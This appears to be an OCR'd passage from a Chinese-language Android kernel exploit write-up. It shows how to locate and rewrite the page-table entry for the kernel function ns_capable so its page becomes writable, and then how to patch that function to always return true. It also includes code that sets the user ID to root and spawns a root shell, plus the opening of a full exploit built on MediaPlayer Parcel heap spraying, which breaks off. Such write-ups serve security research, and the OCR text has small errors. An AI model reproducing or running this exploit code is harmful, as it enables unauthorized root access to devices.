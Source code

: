 算出ns_capable所在页的d_block描述府地址  0xffffffc2000b1024为ns_capable的内核地址 

```c
 L1_index = (0xffffffc2000b1024 & 0x0000007fc0000000) >> 30
>>> hex(8*L1_index)
'0x840L
```

因而0xffffffc001e50840写上0x80000e71，将ns_caple函数所在页的权限改为可读可写

```c
 void kernel_patch_ns_capable(unsigned long * addr) {
        unsigned int *p = (unsigned int *)addr;

        p[0] = 0xD2800020;//MOV x0,#1
        p[1] = 0xD65F03C0;//RET
}
unsigned long ns_capable_addr  = 0xffffffc0000b1024 - 0xffffffc000000000 + 0xffffffc200000000;
kernel_patch_ns_capable((unsigned long *) ns_capable_addr);
	if(setreuid(0, 0) || setregid(0, 0)){
       		printf("[-] setgid failed\n");
		return -1;
        }
	if (getuid() == 0)
        {
                printf("[+] spawn a root shell\n");
                execl("/system/bin/sh", "/system/bin/sh", NULL);
        }
```

之后将ns_caple patch掉 即可提权

完整exp:

```c
#include <stdio.h>
#include <pthread.h>
#include "pwn.h"
#include "cpu.h"
#include <sys/xattr.h>
#include <sys/time.h>
#include <sys/resource.h>
#include <sys/eventfd.h>
#include <sys/inotify.h>
#include <poll.h>

sp<IMediaPlayerService> getMediaPlayer();
sp<IMediaPlayer> mediaPlayer;
#define BAIT 1000
#define BUFF_SIZE 96
Parcel dataBCArray[BAIT];
Parcel replyBCArray[BAIT];

#define HEAP_SPRAY_TIME 30
int fd_heap_spray;

const uint8_t *gDataArray[BAIT];
Parcel dataArray[BAIT], replyArray[BAIT];

int fillFlag = 0;
pthread_mutex_t alloc_mutex;
pthread_cond_t alloc_cond;
int global_parcel_index = 0; 

volatile int stop = 0;
char guardBuffer[1000];
int fd_guard_heap;
```